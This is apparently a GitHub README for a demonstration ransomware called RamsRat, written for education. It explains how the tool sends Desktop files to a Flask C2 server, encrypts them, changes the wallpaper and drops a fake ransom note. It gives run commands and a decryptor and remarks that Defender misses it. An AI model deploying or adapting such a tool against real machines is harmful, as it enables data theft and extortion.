







# RamsRat-Ransomware
A fake Ransomware to understand exactly how it works.

**DISCLAIMER: I am not responsible for anything you do with this script. I provide this script and my pseudo-knowledge for the sole purpose of educating, not destroying.**

[Version-Française]()

To understand how ransomware works, it's important to note that the following is a general description. Ransomware can vary considerably depending on the specific features of each virus.

In general, ransomware :

- Is executed by the host or attacker on the target machine.
- Creates a key (often 32-bit, which can take a long time to break).
- Sends files to a command and control (C2) server.
- Encrypts files with the key.
- Demands a ransom.

## Ransomware

Ransomware is scripting software that executes code to encrypt personal data. It may or may not extract this data to a remote server, so that even if you pay the ransom, the attackers can still use it.

You are then asked to pay in exchange for the decryption key (and sometimes a decryptor).

The end of the story depends solely on the good faith of the person who encrypted your computer (lol).

## C2 server

A C2 (command and control) server is mainly used to manage the victims of your payloads, a bit like sessions in Metasploit.
Here, it's simply a Python script that allows you to receive files via a link.


## Build requirements

- A Windows client (you can use your own Windows, the script is harmless, or use a virtual machine).
-  [Visual Studio Community](https://visualstudio.microsoft.com/fr/downloads/)
  
## Prerequisites Started

- A Windows client (you can use your own Windows, the script is harmless, or use a virtual machine).
- [Python 3](https://www.python.org/downloads/) (on Windows or Linux, it doesn't matter).
- [.NET Desktop Runtime 6.0.31](https://dotnet.microsoft.com/en-us/download/dotnet/6.0)

## How it works


**<!>  Encrypts only files on the desktop, not folders or other locations.**

- Run by user.
- Copies files from the Desktop to: `Desktop/DecryptFiles`.
- Sends desktop files to C2 server.
- Change wallpaper.
- Executes a `readme.txt`.
- Encrypts the desktop files with a 32-bit key.

The result is a completely encrypted desktop.

The copied files are in `Bureau/DecryptFiles`.

Files on the control server (C2) are decrypted and downloaded.

As this is a demonstration, no data persistence or corruption will occur.

Finally, a decryptor `Decryptor.exe` and the 32-bit key will be needed if you want to decrypt the data on the Desktop.

**Again, there's a copy of this data in `Desktop/DecryptFiles`, so you don't have to decrypt the desktop files. You can simply copy them.**

## Get Started

As mentioned earlier, this script is theoretically harmless. However, it can easily be modified to cause damage. Use only the script from this [GITHUB](https://github.com/Raaatus/RamsRat-Ransomware).

The C2 server is independent of the ransomware. It can be remote or local, on another machine or on the machine to be encrypted.

### C2 server installation

- Installation of dependencies :
  - Windows : 
    - [Python 3](https://www.python.org/downloads/) 
    ```
    pip install Flask
    ```
  - Linux
    ```
    sudo apt install python3
    pip install Flask
    ```

- Launch the c2 server. **(If it's on Windows, don't put the script on the desktop)**

  

### Ransomware execution

Defender ?




Defender is probably being fooled by the build, but I'm disappointed that it doesn't even detect file encryption on your PC.

- After you've built or downloaded the release, you end up with a `Ramsom` folder.
- Place it anywhere on the machine you want to “check”.

- Run cmd to specify the C2 server and port. Type `cmd` at the top of the address bar.
  


- Finally, execute the command 
     `RamsRat.exe ip-server-c2 port-server-c2 ` == 
     `RamsRat.exe 10.0.24.55 5000`

- At the end of execution : 
  - The desktop is encrypted and the wallpaper changed:
  
    

  - Readme opened with instructions (Fake):

 

  - The files have been sent to C2 and are readable: 

    

  

- We still find our files copied to `Bureau/DecryptFiles`. As well as the decryption key:

    

  
### File decryption

With the Ransomware I supply the Decryptor.exe.

It is supplied with the path of the encrypted folder and the key. Here it's simple: both are on the desktop.

Use cmd and the command.


```
Decryptor.exe <encryptedFolderPath> <keyFilePath>

Decryptor.exe C:\Users\ratus\Desktop C:\Users\ratus\Desktop\DESKTOP-S3D0A9K.encryptionkey.key
```




### Cleaning 

- With decryptor : 
  - Decrypt your data
  - Delete all .ratus files
  - Delete `DecryptFiles` folder
  - Delete readme
  - Delete project (optional)
- Without decryptor :
  - Copy files from `DecryptFiles` to Desktop
  - Delete .ratus
  - Delete readme
  - Delete `DecryptFiles
  - Delete project (optional)
- Serverc2 :
  - Delete python script
  - ipip unistall Flask
